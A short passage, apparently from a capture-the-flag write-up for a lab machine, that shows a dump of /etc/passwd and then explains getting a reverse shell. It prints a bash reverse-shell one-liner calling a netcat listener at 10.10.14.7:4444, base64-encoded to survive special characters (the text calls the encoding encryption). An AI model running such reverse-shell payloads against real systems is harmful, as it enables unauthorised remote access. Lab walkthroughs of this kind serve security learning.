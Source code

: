 ![Contents of /etc/passwd](/images/devzat/git/dumping_etc_passwd.png)

Now that we now we can actually exploit this, we can execute a callback to a netcat listener.

We base64 encrypt the command `bash -i >& /dev/tcp/10.10.14.7/4444 0>&1` and then decrypt and
execute it in a one liner. This is done to avoid messing up the payload with special characters like
`"` or `'`.
